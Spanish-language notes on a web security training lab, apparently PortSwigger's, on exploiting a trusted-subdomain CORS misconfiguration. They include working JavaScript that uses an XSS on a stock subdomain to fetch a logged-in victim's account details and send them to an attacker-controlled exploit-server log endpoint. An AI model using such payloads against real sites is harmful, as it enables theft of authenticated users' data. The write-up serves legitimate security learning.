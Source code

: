 Se permite el acceso al dominio desde subdominios de este

![[Pasted image 20241103155531.png]]

Esto no va a funcionar porque los navegadores bloquean las modificaciones manuales de la cabecera origin:
```html
<script>

var req = new XMLHttpRequest();
req.onload = reqListener
req.open('get','https://0a1f00890465b05f825c0b7800440048.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.setRequestHeader('Origin', 'https://test.0a1f00890465b05f825c0b7800440048.web-security-academy.net');
req.send();
function reqListener() {
location='/log?key='+this.responseText;
};

</script>
```

Desde el subdominio stock.\<PS id\>.web-security-academy.net es posible usar la consola para hacer una solicitud de orígenes cruzados, nos devolverá los datos de wiener (el usuario autenticado), esto quiere decir que funcionará cuando le pasemos el link malicioso a la víctima.

![[Pasted image 20241103165630.png]]

Cuando la víctima entre al enlace (de nuestra web maliciosa) se encontrará con una web que tiene incrustado el siguiente código javascript:
```html
<script> document.location="http://stock.0a1f00890465b05f825c0b7800440048.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a1f00890465b05f825c0b7800440048.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac300f204cbb06f827d0a7501a90036.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```

Este código redirige a la víctima a un subdominio de la web de la que queremos extraer información, este subdominio tiene un xss que aprovechamos para hacer una solicitud a la web de la que queremos extraer información y el resultado en formato texto lo enviamos a nuestro servidor de atacante.
Esta página esta abierta por la víctima (el administrador) , por lo que esta estará autenticada.
